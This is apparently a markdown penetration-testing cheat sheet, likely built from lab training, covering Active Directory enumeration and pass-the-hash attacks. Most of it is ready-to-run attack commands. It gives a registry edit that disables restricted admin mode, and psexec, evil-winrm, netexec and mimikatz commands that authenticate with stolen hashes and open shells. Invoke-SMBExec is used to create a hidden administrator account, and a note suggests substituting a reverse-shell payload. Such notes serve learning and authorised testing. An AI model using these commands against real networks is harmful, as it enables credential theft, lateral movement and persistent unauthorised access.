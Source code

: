 `PowerView.ps1`
- `Get-DomainUser -Identity username -Domain domain.local
- `Get-DomainGroupMember -Identity "GroupName" -Recurse` identifies users in a group and enumerates nested groups with `-Recurse`

`Snaffler.exe`
- acquires credentials or other data in an AD environment.
- `Snaffler.exe -s -d domain.local -o snaffler.log -v data`

`SharpHound.exe`
- Data collector for Bloodhound
- https://github.com/SpecterOps/SharpHound
- `SharpHound.exe -c All --zipfilename filename` collects all kinds of data from an AD environment
- open `bloodhound` in CMD prompt, and `Upload Data` and select the created zip file

# Pass the Hash
Some of these techniques are very useful for pivoting within a network. Pay close attention to the IP address and domain you are using (and which device the hashes are for )

NTLM hashed stored on the DC are not salted and can be passed
- Once you log in as a user to one of the machines, enter `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` to disable restricted admin mode. 
- Then you can PTH with RDP. This will be necessary to open multiple command prompts and continuing to PTH to elevate permissions.

RDP
- `xfreerdp  /v:[IP] /u:[user] /pth:[hash]`
- See note at the top about disabling restricted admin mode to use RDP

Impacket
- `impacket-psexec [user]@[IP] -hashes [LM]:[NT]` opens a shell
	- if you only have `NT` hash for example, try `:[hash]`

Evil-winrm
- Useful if you don't have admin rights
- `evil-winrm -i [IP] -u [user] -H [hash]`
	- opens a shell

Netexec
- `netexec [protocol] [IP] -u [user] -d . -H [hash] -x [command]`
	- executes specified command
- `netexec [protocol] [IP/subnet] -u [user] -d . -H [hash] --local-auth`
	- adding `local-auth` will automatically try to authenticate to each host on the specified subnet with those credentials (useful if you found an Administrator hash)

Mimikatz
- `sekurlsa::pth` is a module to perform PtH
- on windows: `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:[hash] /domain:inlanefreight.htb /run:cmd.exe" exit`
	- Allows you to use cmd.exe to execute commands as that user
	- use `/domain:localhost` to execute a cmd on local machine
	- specify another domain to try and connect to a Domain Controller or something

Powershell
- `Invoke-TheHash` https://github.com/Kevin-Robertson/Invoke-TheHash
	- You have to download the files onto the target, and import them into powershell with `Import-Module ./Invoke-TheHash.psd1` etc.
	- you need the target user to have admin rights (current user doesn't need those rights)
	- `Invoke-SMBExec -Target [IP] -Domain [domain] -Username [user] -Hash [hash] -Command "[command]"`
		-  You can also use this process to open a reverse shell by replacing the `-Command` with a PowerShell #3 payload from reverse shell generator
		- You can use the local target and try to connect to the Domain Controller or other machines by specifying the target and domain for it
	- `Invoke-SMBExec -Target [IP] -Domain [domain] -Username [user] -Hash [hash] -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`
